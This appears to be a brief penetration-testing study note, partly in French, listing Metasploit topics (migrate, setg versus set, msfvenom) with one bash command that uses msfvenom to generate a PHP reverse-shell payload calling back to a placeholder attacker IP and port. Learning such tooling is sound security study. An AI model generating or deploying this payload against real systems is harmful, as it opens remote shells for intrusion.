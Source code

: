 > migrate explication
> cheatsheet
> msfvenom script generation explain
> difference between setg and set

```bash
# utilisation de msfvenom pour generer un reverse shell php
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```